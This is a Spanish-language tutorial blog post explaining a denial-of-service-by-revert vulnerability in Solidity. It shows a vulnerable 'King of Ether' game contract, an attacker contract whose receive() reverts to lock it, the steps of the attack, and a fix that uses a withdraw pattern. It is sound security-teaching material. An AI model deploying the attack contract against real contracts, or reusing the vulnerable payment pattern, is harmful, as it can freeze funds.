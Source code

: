 ```yaml
---
title: 'Solidity: Ataque DoS Por Reversión'
description: 'Los contratos inteligentes pueden ser víctimas de ataques de denegación de servicios y bloqueados de tal manera que se pierdan millones de dólares y no puedan recuperarse jamás.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Revert DoS Attack',
  description: 'Smart contracts can be victims of denial-of-service attacks and blocked in such a way that millions of dollars are lost and can never be recovered.'
}
prev: 'external-calls'
next: 'dos-gas'
---
```


# Solidity: Ataque DoS Por Reversión

Es conocido en el mundo de la informática los Ataque de Denegación de Servicios o **DoS**. Los mismos **interrumpen de forma total o parcial un servicio** como un servidor web, un servidor de base de datos o algún tipo de red donde se intercambia información.

## DoS en Blockchain

Blockchain no es la excepción, los contratos inteligentes pueden ser víctimas de este tipo de ataques. Los contratos pueden quedar bloqueados de tal manera que **se pierdan millones de dólares y no puedan recuperarse jamás**.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos un contrato inteligente de un juego cuyo objetivo es convertirse en el "Rey" enviando más ETH que el Rey anterior. El Rey destronado recuperará su ETH al perder el trono. La vulnerabilidad provocará que el contrato inteligente quede inutilizable para siempre y que nadie más pueda proclamarse Rey.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/denial-of-service/ "Solidity by examples").

### Contratos involucrados

Comencemos analizando el contrato del juego que será vulnerado. Su función `claimThrone()` es la encargada de toda la lógica del mismo.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
  address public king;
  uint public balance;

  function claimThrone() external payable {
    require(msg.value > balance, "Need to pay more to become the king");

    // Devolvemos ETH al Rey destronado
    (bool sent, ) = king.call{value: balance}("");
    require(sent, "Failed to send Ether");

    // Seteamos al nuevo Rey
    balance = msg.value;
    king = msg.sender;
  }
}
```

Por su parte, el contrato atacante. Su función `receive()` es la responsable de denegar el servicio para siempre del otro contrato.

```js
contract Attack {
  KingOfEther kingOfEther;

  constructor(KingOfEther _kingOfEther) {
    // Instanciamos KingOfEther con su dirección
    kingOfEther = KingOfEther(_kingOfEther);
  }

  // Función que revertirá la transacción siempre que se intente devolver el ETH al contrato.
  // Haciendo que nadie más pueda reclamar el trono.
  receive() external payable {
    revert();
  }

  // El ataque se origina cuando enviamos más ETH que el anterior Rey y el contrato Attack se convierte en el nuevo.
  function attack() public payable {
    kingOfEther.claimThrone{value: msg.value}();
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `KingOfEther`.
2. Enviar 1 ETH con Alice a través de la función `claimThrone()`.
2. Enviar 2 ETH con Bob a través de la función `claimThrone()`. Alice recupera 1 ETH y Bob es el nuevo Rey.
3. Desplegar el contrato `Attack` que recibe por parámetro la dirección de `KingOfEther`.
4. Realizar el llamado a `Attack.attack` con 3 ETH.
5. El nuevo Rey será el contrato atacante y nadie más podrá reclamar el reinado.

### ¿Qué sucedió aquí?

`Attack` se convirtió en el nuevo Rey. Nadie más puede reclamar el trono debido a que, cuando el contrato `KingOfEther` intenta devolverle sus ETH al contrato atacante, el mismo responde con un `revert()` a través de su función `receive()`.

El ataque genera que solo el contrato atacante pierda sus ETH, ya que el Rey destronado los recupera antes de setear como Rey al contrato atacante.

Si bien, como hemos dicho, *"solo el contrato atacante pierde sus ETH"*, puede parecer un ataque sin ningún tipo de sentido, ya que es ocasionado solo por querer hacer daño a un proyecto y para que el contrato quede inutilizable. Aun así, existen escenarios donde también hay perdidas económicas de otros usuarios.

### ¿Por qué sucedió?

`KingOfEther` espera una respuesta positiva al realizar el `call()` y devolver los ETH a su respectivo dueño. El `revert()` del contrato atacante provoca que en cada llamado siempre ocurra un error y nunca pueda setearse un nuevo Rey.

Cabe recalcar que la vulnerabilidad puede exponerse no solo a través de la función `receive()` más un `revert()`. Podría simplemente no existir una función `fallback()` en el contrato atacante y provocar el mismo daño de inutilizar el contrato vulnerado.

### ¿Cómo se puede evitar?

Observa la función principal de `KingOfEther`:

```js
function claimThrone() external payable {
  require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");

  (bool sent, ) = king.call{value: balance}("");
  require(sent, "El envio de ETH ha fallado.");

  balance = msg.value;
  king = msg.sender;
}
```

La misma se encarga tanto de devolver los ETH a su dueño como de setear al nuevo Rey posteriormente.

Esta vulnerabilidad puede evitarse haciendo una **división de responsabilidad**. Por un lado, la lógica para determinar al nuevo Rey. Por otro, el retiro de los ETH por parte de los usuarios que fueron destronados.

```js
contract KingOfEther {
  address public king;
  uint public balance;
  mapping(address => uint) public balances;

  function claimThrone() external payable {
    require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");
    balances[king] += balance;
    balance = msg.value;
    king = msg.sender;
  }

  function withdraw() public {
    require(msg.sender != king, "El Rey actual no puede retirar sus fondos.");
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "El envio de ETH ha fallado.");
  }
}
```

La administración de los balances de cada cuenta siempre es mejor realizarla con un `mapping`. La función `withdraw()` permitirá a los usuarios retirar su dinero (a excepción del Rey actual) y, por más que ocurra algún tipo de denegación, podrán recuperar sus ETH.

Cada usuario es responsable de sus ETH. El retiro del mismo deben hacerlo ellos mismos y ya no será el propio contrato inteligente quien se encargue de devolvérselos.

De esta forma, el ataque DoS solo afectará al mismo contrato atacado, quién será el único que no puede recuperar sus ETH.

## Conclusiones

Hay mucha gente que busca hacer daño allá afuera. Por más que ellos también salgan perjudicados económicamente. Buscan destruir un proyecto o comunidad que puede haber por detrás.
Busca siempre las mejores prácticas a la hora de escribir código. Como en todo desarrollo de software, existen patrones de diseño recomendados para escribir código. El *Principio de Responsabilidad Única* del patrón SOLID también aplica para el desarrollo Web3.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
